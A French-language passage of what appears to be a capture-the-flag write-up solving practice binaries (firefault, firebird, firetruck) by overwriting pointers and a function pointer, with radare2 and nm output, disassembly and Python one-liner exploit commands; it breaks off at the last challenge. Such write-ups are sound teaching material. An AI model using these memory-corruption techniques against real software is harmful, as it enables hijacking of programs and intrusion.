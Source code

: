 Si ce n'est pas le cas le programme segfault et l'exploitation tombe à l'eau.  

La problématique reflète bien des cas que l'on peut trouver dans la réalité, en particulier si un shellcode doit être placé dans un protocole réseau ou un format de fichier.  

On pourrait trouver différentes adresses écrivables mais on va simplement réécrire la valeur qui était affecté au pointeur.  

```plain
[0x08048380]> ? sym.done
134520876 0x804a02c 01001120054 128.3M 804000:002c 134520876 00101100 134520876.0 0.000000
```

```plain
$ python -c "print '\x2c\xa0\x04\x08' * 12 + '\x7d\x84\x04\x08'" | ./firefault
Hi ,,,,,,,,,,,,}!
Awesome!
Erreur de segmentation
```

Finale
------

### Firebird

```plain
$ ./firebird 
Usage: ./firebird <address to write to> <value to write there>
$ ./firebird ABCD EFGH
Value being written: 48474645
Address being written to: 44434241
Erreur de segmentation
$ nm firebird | grep execute_me
0804844d T execute_me
```

Dans le code assembleur on trouve un pointeur sur fonction qu'il nous suffira d'écraser :  

```asm
0x080484ee    a124a00408   mov eax, dword [sym.printer] ; [:4]=0x8048461 ; "a...GCC: (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4" @ 0x804a024
0x080484f3    ffd0         call eax
```

```plain
$ ./firebird `python -c "print('\x24\xa0\x04\x08')"` `python -c "print('\x4d\x84\x04\x08')"`
Value being written: 804844d
Address being written to: 804a024
Awesome!
```

### Firetruck

```plain
$ ./firetruck 
./firetruck string
$ ./firetruck ABCD
That's not the best truck
```

